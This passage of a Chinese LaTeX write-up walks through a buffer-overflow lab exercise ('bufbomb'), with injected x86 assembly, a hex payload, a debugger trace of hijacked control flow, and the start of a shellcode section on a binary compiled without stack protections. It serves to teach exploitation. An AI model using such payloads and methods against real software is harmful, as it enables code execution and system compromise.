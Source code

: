 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
当跳转到0x80492d7后，这一切就像无事发生，只不过返回值，也就是 \texttt{eax}会被改成0xdeadbeef。\footnote{我们可以使用\href{https://docs.pwntools.com/en/stable/asm.html}{PWNTools中的ASM模块}来将汇编代码编译成字节码。}

\begin{lstlisting}[language={[x86masm]Assembler}]
    push 0xdeadbeef
    push 0x80492e0
    ret

    ;payload: 68EFBEAD DE68E092 0408C300 00000000 00000000 00000000 EBP ADDR
\end{lstlisting}

\begin{lstlisting}[style=DOS]
    0x80492a7  <getbuf+31>    mov    eax, 1
    0x80492ac  <getbuf+36>    leave  
    0x80492ad  <getbuf+37>    ret    
     ↓
    0xffffd380                push   0xdeadbeef
  ► 0xffffd385                push   test+50                       <0x80492e0>
    0xffffd38a                ret    
     ↓
    0x80492e0  <test+50>      lea    eax, [ebx - 0x1fe7]
    0x80492e6  <test+56>      push   eax
    0x80492e7  <test+57>      call   printf@plt                     <printf@plt>
  
    0x80492ec  <test+62>      add    esp, 0x10
    0x80492ef  <test+65>      nop
\end{lstlisting}

跳转到0x80492e0也就意味着跳过了push第二个参数。因此，我们可以直接通过栈操作到给第二个参数赋值。

当然，既然我们可以执行任意汇编代码了，那我们有很多种方法来使得输出达到我们想要的结果。

\subsection{solution4/彩蛋}

\begin{itemize}
    \item elf file:  \texttt{bufbomb-no-nx}
    \item compile command: gcc -m32 bufbomb.c -o bufbomb-no-nx -g -no-pie -fno-stack-protector -O0 -z execstack
    \item guard: no PIE, no Canary, no NX, no ASLR
\end{itemize}

既然我们可以执行任意汇编代码，那我们为什么不试着拿Shell权限呢？首先我们需要找到一个放置Shellcode的地方。

回到我们前面给到的这个结构： shellcode + padding + ebp + shellcode's start addr 
\end{document}
